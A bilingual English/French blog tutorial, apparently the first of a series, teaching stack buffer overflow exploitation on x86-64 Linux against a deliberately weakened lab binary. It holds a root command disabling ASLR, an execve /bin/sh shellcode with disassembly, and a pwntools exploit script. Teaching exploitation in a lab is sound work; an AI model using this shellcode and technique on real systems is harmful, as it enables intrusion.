









> Small edit after the initial publication of the articles:

> These four articles lead me to give an "pwn introductory" conference at the HitchHack 2018. It summarizes the first 3 articles but goes less into detail. If this format suits you better, the slides are downloadable [here](slides_conf_123_pwned.pdf) and the video (French only) here :




## printf("Mr, Ms %s, bonjour. ", lecteur);

Today, I want to offer you an article more sophisticated than usual, the first of  new kind, an article dealing with heavy stuff, in short, an article that blows ass!


The concept discussed today is quite extensive, so I know that many of you, among my usual readers, will not necessarily be able to understand the entire article, which is why I will try to make it interesting even for neophytes. So if you are a sorcerer's apprentice, be relentless, enjoy it, otherwise, you wan see it as a black magic trick, it's beautiful, it's powerful, but you don't have to understand everything to appreciate it :)

This article is therefore the first of a small series dedicated to buffers overflow!

One last thing before we start.... \
A big shout out to Cyril Bresch who gave me the right to use some of his exercises for this introduction BOF. But especially thanks to him for introducing me to binary exploitation (Well, ok you were paid, but still! :D). \
His personal website is hosted here: https://cyrilbresch.fr/

What comes next? Shellcodes, assembly, ret2libc, rop, and much more. None of these words mean anything to you? It's normal, don't worry, we'll start easy with some context.

I will try a recursive definition: I start by defining the core of the subject, and every time a new term appears, I define it right after. This should, I hope, allow a fluid reading! :)

## Buffer overflow, Watizit?

 * Buffer:

Small recipient in which we store pieces of information in a program. Most of the time, this buffer will contain chars, or a sequence of numbers, or whatever, anyway, they are bits stuck together that form bytes. Buffers are usually stored on the heap or in the stack.

 * Overflow :

Action that consists in exceeding the initial size of a buffer, thus affecting the values stored after said buffer. We as hackers are happy when a lot of very useful data can be found after the buffer. The most convenient case being to control the instruction pointer (a register), which tells which piece of code should be executed next. Be able do modity it, and you're all done!
There are many ways to perform an overflow, but also many protections in place.

 * Program:

"Well, I know what a program is, you click on it and it starts, how lame!"

Sure... But no really. You got the core idea, but most programs work in a command line interface, i.e. they are run by typing commands into a shell. Unlike with windows, where most of the time it is the extension of the file (.txt, .exe, ...) that determines its type, with linux, it is rarely used, we got much better. The window's way of doing so is itself a huge security flaw. More information about this kind of issue here: [article_RTLO](https://blog.malwarebytes.com/cybercrime/2014/01/the-rtlo-method/)

What replaces this practice is the use of a magic number. It is a sequence of bytes that is put at the beginning of the file and which allows the system to know the type of file it is and version of it. Here, for an ELF, we see:


Two notable things here:\
 - 45 4c 46 is the ELF's ASCII code: Executable and Linkable Format\
 - Type of architecture to launch it: X86-64, so 64 bits.

 * Architecture :

There are many types of processors, and each processor has its own set of instructions. Although standards are adopted by manufacturers, each processor retains its own particularities. A non-exhaustive list is available here: https://en.wikipedia.org/wiki/List_of_instruction_sets

The most common architectures are: x86, x86-64, arm, mips,...

x86 refers to the usual 32bits, and x86-64 to the 64 bits. This difference is due to the size of the registers used for addresses and operation management. A program x32 will work on both archs, but a x64 program will only work on a x64 machine.

 * Linux :

Linux is not Unix. If you're there, it's never too late! In short, a large family of open source OS.

[Linux introduction](https://openclassrooms.com/courses/reprenez-le-controle-a-l-aide-de-linux/mais-c-est-quoi-linux)

 * Shell :

A shell is a command interpreter. Seen from afar, this is where hooded people type green lines of code on a black terminal. They exist on all OSes because it is necessary to communicate with the system this way. Attention, for each system, there are several implementations and versions.

Example (linux): sh / bash / dash / zsh / fish / ...

 * Stack:

The stack is a place used by the processor to store data. It is a LastInFirstOut file. In other words, the last element to be pushed is the first to be popped.


 * Heap :

The heap also allows data to be stored, but in a more dynamic / flexible way. It is used (not exclusively) when the malloc functions (memory allocation during program execution) is called.

 * Function:

A series of assembly instructions starting (most of the time...) by booking space on the stack to process data locally, and ending with `leave` and `ret` to let the calling program resume at the initial calling state.

 * Shellcode :

A series of assembler instructions that spawns a shell.

 * Bits :

 A data that is worth 0 or 1, atomic unit.

 * Byte :

 A sequence of 8 bits, encoding an number between 0 and 255.

Well, take a break, take a deep breath, make yourself comfy in your chair... \
And we're going back!

## Disable security:

The first thing to do for a first approach is to disable the protections in place, because trying to learn this subject with all the protections currently used: RIP!

We start by disabling the ASLR, it is a kernel parameter (kernel of the system, which manages almost everything) that indicates whether or not to place the different segments of a program at random addresses. Here, we will use the stack, so we don't want it to move at all.

```shell
# As root:
echo 0 > /proc/sys/kernel/randomize_va_space
```

We will then compile the program so that:

- There is no stack canary, in other words, no value placed at the end of the buffer, which is checked and screams if it has been overwritten (so if it detects a buffer overflow)

- The stack is executable, otherwise, an NX bit is placed there. This bit of information means that it is not possible to execute the data (here assembly instructions) found there. It is therefore impossible for us to execute the code of our choice.

- The Position Independent Code is disabled (do not place the different segments of our program in random places).

We therefore use the following compilation line:

```shell
$ gcc -o vuln -fno-stack-protector -no-pie -z execstack vuln.c
```

We will also need a few tools:

* python: Language and interpreter, version 2 for less annoying encoding reasons

* gdb : Gnu debugger, useful to understand what's going on in the program

* gdb-peda: gdb improved with python scripting, makes gdb easier to use

* pwntool : Not much used here, this python tool makes it easier to perform binary exploits

## Recon

The studied binary is downloadable [here](vuln)

Okay, it needs an argument. What is done with it?

Seems like, nothing... It's only a test program, we don't care! `¯\_(ツ)_/¯`



Find the crash:

The usual beginner strategy, long arguments.



Hey, that looks good!

Let's just pass it a long argument in order to make it crash!

Offset research:



Create the pattern (easily recognizable, that will be used to understand which registers are reachable by our input), then run the program with the pattern as parameter.

We see here that the crash occurs on the `ret` instruction (code section, small arrow on the left).



After the crash, we search the pattern in the memory:



The memory analysis has found pieces of our pattern in different places, so we see that the RSP (Registre Stack Pointer) is 40 bytes away from our input start.

But we already know that the crash occurs on a ret. Ret is an instruction that stores the last element of the stack in RIP (Instruction Pointer) to return to the main program in order to continue its execution. So controlling RSP before a ret means controlling  RIP. Controlling RIP means being able to divert the execution flow of or target, and...

And it's a win-win! `^~^`

Shellcode search:

We do know where we are going to inject. What we now need a shellcode, a good one, a real one! :D

A quick tour on [shellstorm](http://shell-storm.org/shellcode/) or [exploit-db](https://www.exploit-db.com/), choose the right architecture, ...

Here, the shellcode is homemade, because the general idea remains the same: Place the right parameters in the registers, then trigger a syscall so that the kernel executes what you want, here a shell.

Shellcode :

`\x48\xB8\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xE8\x08\x50\x48\x89\xE7\x48\x31\xC0\xB0\x3B\x48\x31\xF6\x48\x31\xD2\x0F\x05`


We're still going to disassemble it to understand what it does, thanks to this site: https://onlinedisassembler.com



```
0  : "//bin/sh" dans rax
A  : "/bin/sh\x00" dans rax
E  : push rax in the stack
F  : rdi now points to the stack
12 : 0 in rax
15 : 59 in rax (execve)
17 : 0 in rsi
1a : 0 in rdx
1d : Init the syscall
```

This will execute `/bin/sh` using the execve syscall.

The parameters to use are found using this doc: \
https://w3challs.com/syscalls/?arch=x86_64


## Development of the exploit

We want to put our shellcode in a known place, then reach a size of 40 bytes to place the address of the shellcode to execute. Yapluka!

Our payload (data sent during the attack) will therefore have the following structure:\
PADDING + SHELLCODE + SHELLCODE_ADDRESS

To find out where the data entered by the user is located, in gdb:

Disassemble the main (name convention for the main function of the program), define a breakpoint before the end of the execution, then run it with AAAA as a parameter.





Once stopped, our input is in the stack, at the address: 0x7fffffffe570

And our shellcode will be a little farther, because of the padding.

Python code of the exploit:


```python
#!/usr/bin/env python2

from pwn import *

def save(what, where):
  with open(where, "wb") as f:
    f.write(what)

shellcode = "\x48\xB8\x2F\x2F\x62\x69\x6E\x2F\x73\x68"
shellcode += "\x48\xC1\xE8\x08\x50\x48\x89\xE7\x48\x31"
shellcode += "\xC0\xB0\x3B\x48\x31\xF6\x48\x31\xD2\x0F\x05"

offset = 40
count_A = offset - len(shellcode)
padding = "A" * count_A
addr_input = 0x7fffffffe570 # Depends on your OS
addr_shellcode = addr_input + count_A
log.info("Shellcode at 0x{:8x}".format(addr_shellcode))

payload = padding + shellcode + p64(addr_shellcode)

save(payload, "payload")
log.success("Payload written")
```

To run the exploit, all you have to do is give its output to the program as an argument:



And BIM! Spawned a shell! `\o/`


## Notes and Reflection:

 * Note 1

In this example, an error has been hidden, will you be able to find it?

 *-[ SPOIL ]-*

 This shellcode contains null-bytes (`\x00`, a sentinel which in C, refers to the end of a string) that are very poorly managed by bash. If the argument had been passed directly, bash would have cut it off. Going through a file allows you to send everything to the program, even null-bytes. But this does not solve the problem entirety. Indeed, the vulnerable function here is strcpy. It copies a string and stops at the first sentinel (i.e. null-byte, i.e. 0x00, i.e. ShellCodeBreakerOfDoom). Our exploit still works because they appear at the end or our payload as an address. And we paste this stack address on... A stack address, so the 0x00 are already present.

 Thinking: How to fix the shellcode so that it no longer uses null-byte?

  * Note 2

 This example is limited because the size available before the EIP is very small. That's enough for spawning a shell, but not for much more. In addition, since this space is close to the addresses used, it may be altered during execution. It's annoying, isn't it?

 Reflection: How to use a shellcode of arbitrarily long size?

  * Note 3

 This example only works if the ASLR is disabled because it is highly dependent on the stack. There are many ways to bypass the ASLR... More in the next articles... Pwn-knowledge, one drop at a time! :D

 Huh ? You read this far? Hatzoff, my friend!

 You're a magician now! Almost... ;)

 

 This being my first article on the subject, I know it will be incomplete, and full of inaccuracies if not errors. Feedback are welcome for typos, missing details, errors, ... `^.^`

  * Hints

 -Use... Xor? Add? Sub? Other? \
 -Environmental variables? Order of the padding and shellcode in out payload?

 I hope you appreciated this first step into the pwning world,


<h2 id="fr">French version</h2>


 > Petit ajout après la publication des articles :

 > Ces quatres articles ont donné lieu à une conférence d'introduction au pwn à la HitchHack 2018. Elle résume les 3 premiers articles mais rentre moins dans le détail. Si ce format vous convient mieux, les slides sont téléchargables [ici](slides_conf_123_pwned.pdf) et la vidéo (francais uniquement) ici :

 


## printf("Dear %s, welcome. ", reader);

Aujourd'hui, je vous propose un article plus hardu, un article plus poilu, un article plus barbu, en bref, un article qui pète des culs !


La notion abordée aujourd'hui est assez poussée, donc je sais que parmi les lecteurs habituels, vous serez nombreux à ne pas forcément pouvoir comprendre la totalité de l'article, c'est pourquoi je vais tenter de le rendre intéressant même pour les néophytes. Donc si vous êtes un apprenti sorcier, acharnez vous, profitez en, sinon, regardez ca comme un tour de magie noir, c'est beau, c'est puissant, mais il n'est pas nécessaire de tout comprendre pour apprécier :)

Cet article est donc le premier d'une petite série dédiée aux buffers overflow !

Dernière chose avant de commencer... \
Merci à Cyril Bresch qui m'a donné le droit d'utiliser certains de ses exos pour cette introduction aux buffers overflow. Mais surtout merci à lui pour m'avoir initié à l'exploitation binaire (Bon, ok t'étais payé, but still ! :D ). \
Son site perso est dispo ici : https://cyrilbresch.fr/

En prévision, des shellcodes, de l'assembleur, du ret2libc, du rop, et bien plus encore. Ces mots ne vous disent rien ? C'est normal, ne vous en faites pas, on va commencer tranquilou avec une mise en contexte.

Je vais tenter une définition récursive : Je commence par définir le coeur du sujet, et à chaque fois qu'un terme nouveau apparait, je le défini juste après. Ceci devrait permettre, je l'espère, une lecture fluide ! :)

## Buffer overflow, Keskecé ?

 * Buffer :

Petit conteneur dans lequel on va stocker de l'information dans un programme. La plupart du temps, ce buffer, ou tampon, va contenir des caractères, ou une suite de nombres, ou peu importe, de toute facon, c'est des bits collés les uns aux autres qui forment des bytes. Les buffers sont la plupart du temps stockés sur le heap ou dans la stack.

 * Overflow :

Action de dépasser la taille initialement prévue pour un buffer, affectant ainsi les valeurs stockées après ledit buffer. Là où en tant que hackeur on est content, c'est que pleins de données très utiles peuvent se trouver après le buffer. Le cas le plus arrangeant étant de contrôler le registre d'instructions, qui dit quel code doit être exécuté. Arriver à l'affecter, et le tour est joué !\
Il existe de nombreuses facons d'effectuer un overflow, mais également un grand nombre de protections mises en place.

 * Programme :

"Bah je sais ce que c'est un programme, tu click et ca se lance tavu !"

Oui... Mais non. Dans l'idée c'est ca, mais la plupart des programmes fonctionnent en ligne de commande, c'est à dire qu'on les lance en tapant des commandes dans un shell. Contrairement à windows, ou le plus souvent c'est l'extension du nom du fichier (.txt, .exe, ...) qui détermine son type, sous linux, ce n'est que très rarement utilisé, et tant mieux car cette pratique est une énorme faille de sécurité. Plus d'infos sur la faille ici : [article_RTLO](https://blog.malwarebytes.com/cybercrime/2014/01/the-rtlo-method/)

Ce qui remplace cette pratique est l'usage de magic number. En bref, c'est une suite de bytes que l'on met en début de fichier et qui permet de connaître le type et la version du fichier. Ici, pour un programme, ELF sous linux, on voit :


Deux choses notables :\
 - 45 4c 46 est le code ASCII de ELF : Executable and Linkable Format\
 - Type d'architecture pour le lancer : X86-64, donc du 64 bits.

 * Architecture :

Il existe de nombreux types de processeurs, et chaque processeur à son propre jeu d'instructions. Bien que des standards soient adoptés par les constructeurs, chaque processeur garde ses particularités. Une liste non exhaustive est disponible ici : https://en.wikipedia.org/wiki/List_of_instruction_sets

Les architectures les plus courantes sont : x86, x86-64, arm, mips, ...

x86 désigne l'habituel 32bits, et x86-64 le 64 bits. Cette différence est due à la taille des registres utilisés pour la gestion des adresses et opérations. Un programme 32 marchera sur 32/64, un programme 64 uniquement sur du 64.

 * Linux :

Linux is not Unix. Si vous en êtes là, il n'est jamais trop tard ! En bref, une grande famille d'OS open source.

[Introduction linux](https://openclassrooms.com/courses/reprenez-le-controle-a-l-aide-de-linux/mais-c-est-quoi-linux)

 * Shell :

Un shell est un interpréteur de commandes. Vu de loin, c'est là ou les gens à capuche tapent des lignes de code en vert sur fond noir. Il y en a sous tous les OS communs car c'est indispensable pour communiquer avec le système. Attention, pour un système, il existe plusieurs implémentations, plusieurs versions.

Exemple (linux) : sh / bash / dash / zsh / fish / ...

 * Stack :

La pile est un endroit utilisé par le processeur pour stocker des données. C'est un fonctionnement LastInFirstOut. Autrement dit, le dernier élément qui arrive est le premier à sortir.


 * Heap :

Le tas permet aussi de stocker des données, mais de manière plus dynamique / flexible. Il est utilisé (entre autre) lors de l'usage de fonctions type malloc (allocation de mémoire en cours d'exécution du programme).

 * Fonction :

Suite d'instructions assembleur commencant (le plus souvent...) par faire de la place sur la stack pour traiter des données en local, et se terminant par `leave` et `ret` afin de laisser le programme appelant reprendre au point d'appel.

 * Shellcode :

Suite d'instructions assembleur permettant d'invoquer un shell.

 * Bits :

 Une donnée valant 0 ou 1, unité atomique.

 * Byte :

 Suite de 8 bits, codant donc un number compris entre 0 et 255.

Allez, petite pause, on respire un grand coup, on s'installe confortablement sur sa chaise...\
Et on y retourne !

## Désactiver les sécurités :

La première chose à faire pour une première approche est de désactiver les protections mises en place, car aborder le sujet avec toutes les protections actuellement utilisées : RIP !

On commence par désactiver l'ASLR, c'est un paramètre du kernel (noyau du système, ce qui gère quasiment tout) qui indique s'il faut oui ou non placer les différents segments d'un programme à des adresses aléatoires. Ici, on va utiliser la stack, on ne veut donc pas de randomisation afin de faciliter l'exploit.

```shell
$ # En tant que root :
$ echo 0 > /proc/sys/kernel/randomize_va_space
```

On va ensuite compiler le programme de manière à ce que :

-   Il n'y ait pas de stack canary, autrement dit, pas de valeur placée en fin de buffer, qui est vérifiée et hurle à la mort si on l'a écrasée (donc si elle détecte un buffer overflow)

-   La stack soit exécutable, sinon, un bit NX y est placé. Ce bit d'information signifie qu'il n'est pas possible d'exécuter les données (ici instructions assembleur) qui s'y trouvent. Il nous est donc impossible pour nous d'exécuter le code de notre choix.

-   Le Position Independent Code soit désactive (ne pas placer à des endroits aléatoires les différents segments de notre programme).

On utilise donc la ligne de compilation suivante :

```shell
$ gcc -o vuln -fno-stack-protector -no-pie -z execstack vuln.c
```

Nous allons également avoir besoin de quelques outils :

* python : Langage et interpréteur, version 2 pour raisons d'encodage moins chiant

* gdb : Gnu debugger, utile pour comprendre ce qu'il se passe dans le programme

* gdb-peda : gdb amélioré avec du scripting python, facilite l'utilisation de gdb

* pwntool : Peu utilisé ici, cet outil python permet de faciliter l'exploit binaire

## Reconnaissance

Le binaire étudié est téléchargable [ici](vuln)

Ok, il prend un argument. Il en fait quoi ?

A priori, rien... Prog de test, osef ! `¯\_(ツ)_/¯`


Trouver le point de crash :

La strat habituelle de débutant, des arguments longs.


Ah, ca, ca sent bon !

On a qu'a lui donner un argument long pour le faire crash !

Recherche de l'offset :


Créer le pattern (schéma facilement reconnaissable qui va servir à comprendre quels registres sont atteignables par notre input), puis lancer le programme avec le pattern en paramètre.

On voit ici que le crash survient sur l'instruction `ret` (section code, petite flèche à gauche).


Après le crash, on cherche le pattern dans la mémoire :


L'analyse de la mémoire a retrouvé des morceaux de notre pattern à différents endroits, on voit donc que le RSP (Registre Stack Pointer) est au 40ème byte de notre input.

Mais nous savons déjà que le crash survient sur un ret. Ret est une instruction qui place le dernier élément de la pile dans RIP (Instruction Pointer) pour retourner au programme principal afin de poursuivre son exécution. Donc contrôler RSP avant un ret, c'est contrôler RIP. Contrôler RIP, c'est pouvoir détourner le flot d'exécution du programme, et...

Et c'est gagné du coup ! `^~^`

Recherche du Shellcode :

On sait maintenant à peu près où on va injecter. Ce qu'il nous faut maintenant c'est un shellcode, un bon, un vrai ! :D

Petit tour sur [shellstorm](http://shell-storm.org/shellcode/) ou [exploit-db](https://www.exploit-db.com/), choisir la bonne architecture, ...

Pour ma part il est fait maison, ou plutôt refait maison, car l'idée générale reste la même : Placer les bons paramètres dans les registres, puis déclencher un syscall pour que le kernel exécute ce que l'on veut, ici un shell.

Shellcode :

`\x48\xB8\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xE8\x08\x50\x48\x89\xE7\x48\x31\xC0\xB0\x3B\x48\x31\xF6\x48\x31\xD2\x0F\x05`

On va quand même le désassembler pour comprendre ce qu'il fait, et ce grâce à ce site : https://onlinedisassembler.com


```
0  : "//bin/sh" dans rax
A  : "/bin/sh\x00" dans rax
E  : mettre rax en pile
F  : rdi pointe vers la pile
12 : 0 dans rax
15 : 59 dans rax (execve)
17 : 0 dans rsi
1a : 0 dans rdx
1d : Initier le syscall
```

Ceci va donc exécuter `/bin/sh` à l'aide du syscall de execve.

Les paramètres à utiliser sont trouvés à l'aide de cette doc :\
https://w3challs.com/syscalls/?arch=x86_64


## Développement de l'exploit

On veut donc arriver à mettre notre shellcode à un endroit connu, puis atteindre une taille de 40 bytes pour y placer l'adresse du shellcode à exécuter. Yapluka !

Notre payload (données envoyées lors de l'attaque) aura donc la forme suivante :\
PADDING + SHELLCODE + ADRESSE_SHELLCODE

Afin de trouver où se situent les données entrées par l'utilisateur, dans gdb :

On désassemble le main (convention de nom pour la fonction principale du programme), défini un point d'arrêt avant la fin de l'exécution, puis le lance avec AAAA en paramètre.


Une fois arrêté, notre input se trouve donc dans la stack, à l'adresse : 0x7fffffffe570

Et notre shellcode se trouvera un peu après l'input, à cause du padding.

Code python de l'exploit :

```python
#!/usr/bin/env python2

from pwn import *

def save(what, where):
  with open(where, "wb") as f:
    f.write(what)

shellcode = "\x48\xB8\x2F\x2F\x62\x69\x6E\x2F\x73\x68"
shellcode += "\x48\xC1\xE8\x08\x50\x48\x89\xE7\x48\x31"
shellcode += "\xC0\xB0\x3B\x48\x31\xF6\x48\x31\xD2\x0F\x05"

offset = 40
count_A = offset - len(shellcode)
padding = "A" * count_A
addr_input = 0x7fffffffe570 # Dépend de votre OS
addr_shellcode = addr_input + count_A
log.info("Shellcode at 0x{:8x}".format(addr_shellcode))

payload = padding + shellcode + p64(addr_shellcode)

save(payload, "payload")
log.success("Payload written")
```

Pour lancer l'exploit, il n'y a plus qu'à donner son output au programme en tant qu'argument :


Et BIM ! Spawned a shell ! `\o/`


## Remarques et Réflexion :

 * Remarque 1

Dans cet exemple, une erreur s'est dissimulée, sauras tu la retrouver ?

 *-[ SPOIL ]-*

Ce shellcode contient des null-bytes (`\x00`, sentinelle qui en C, désigne une fin de chaine de caractère) qui sont très mal gérés par bash. Si l'argument avait été passé directement, bash l'aurait coupé. Passer par un fichier permet de tout envoyer au programme, même les null-bytes. Mais ceci ne règle pas le problème en totalité. En effet, la fonction vulnérable ici est strcpy. Elle copie un string et s'arrête à la première sentinelle (aka null-byte, aka 0x00, aka ShellCodeBreakerOfDoom). Notre exploit fonctionne quand même car ils apparaissent à la fin de notre payload en tant qu'adresse. Et nous collons cette adresse de stack sur... Une adresse de stack, donc les 0x00 dont déjà présents.

Réflexion : Comment corriger le shellcode pour qu'il n'utilise plus de null-byte ?

 * Remarque 2

Cet exemple est limité car la taille disponible avant l'EIP est très petite. Cela suffit pour pop un shell, mais pas pour bien plus. De plus, cet espace étant près des adresses utilisées, il est possible qu'il soit altéré durant l'exécution. Embêtant non ?

Réflexion : Comment utiliser un shellcode de taille arbitrairement longue ?

 * Remarque 3

Cet exemple ne fonctionne que si l'ASLR est désactivé car il dépend fortement de la pile. Il existe de nombreuses facons de contourner l'ASLR... Suite dans les prochains articles... Au compte goutte ! :D

Comment ? Tu as lu jusqu'ici ? Chapal l'ami !

T'es un magicien, maintenant ! Ou presque... ;)


Ceci étant mon premier article sur le sujet, je sais qu'il sera incomplet, et plein d'imprécisions si ce n'est d'erreurs. Vos retours sont donc bienvenus pour toute coquille trouvée, détail manquant, erreur, ... `^.^`

 * Hints

-Utiliser des... Xor ? Add ? Sub ? Autre ?\
-Variables d'environnement ? Ordre du padding et du shellcode dans notre payload?

En espérant que ce premier pas dans le monde du pwn vous ait plu,
